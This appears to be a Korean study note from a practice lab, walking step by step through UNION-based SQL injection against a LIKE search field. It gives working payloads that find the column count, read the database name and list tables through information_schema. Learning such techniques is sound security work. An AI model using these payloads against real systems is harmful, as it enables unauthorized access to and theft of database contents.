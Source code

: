 그렇다면 이 곳의 컬럼은 4개!

## (4) data 출력 위치 파악

컬럼이 4개라고 확인을 order by 로 확인을 했는데 출력되는 결과는 항상 3개임.

그렇다면    
where name like = '%___%'    
기준에서

```
watch%' union select '1','2','3','4
```

where name like = '%watch%' union select '1','2','3','4%'

위 구문을 넣어서 출력을 확인해보니까   
2,3,4 가 출력되었음.

그렇다면 나는 2,3,4 번에 내가 나왔으면 하는 데이터의 위치를 확인햇음.

## (5) database 이름 확인

SQL 문에 입력하는 구문 
```   
select database()
```
where name like = '%___%'

watch%' union select '1',database(), '3', '4    
이렇게 하면 2번 차리에 database 이름이 출력될 것임.

watch%' union select '1','2', database(), '4     
이렇게 하면 3번 자리에 database 이름 추출.

그래서 추출한 db 이름을 빼낼 수 있음.
segfault_sql.

근데 이 방법은 mysql 에서만 가능할 때임.

그렇다면 oracle 등등 다 방법이 다름. 그렇기에 오류메시지를 보고 데이터베이스 종류를 확인하면 됨.

## (6) 테이블 이름
select table_name from information_schema.tables where table_schema = 'segfault_sql'


select table_name from information_schema.tables   
이렇게 검색하면 모든 table 이 나옴. 너무 많음.

그렇기에 where 절을 사용해서 segfault_sql 에 있는 table 을 알려주라고 하면 알 수 있음!

watch%' union select '1',table_name, '3', '4' from information_schema.tables where table_schema = 'segfault_sql' 

근데 끝부분에 %' 남아있다는 것을 명심해야 함. 그래서 없애야 하는데
and 를 쓰거나 # 쓰면 됌.

\# 써보면   
watch%' union select '1',table_name, '3', '4' from information_schema.tables where table_schema = 'segfault_sql' #
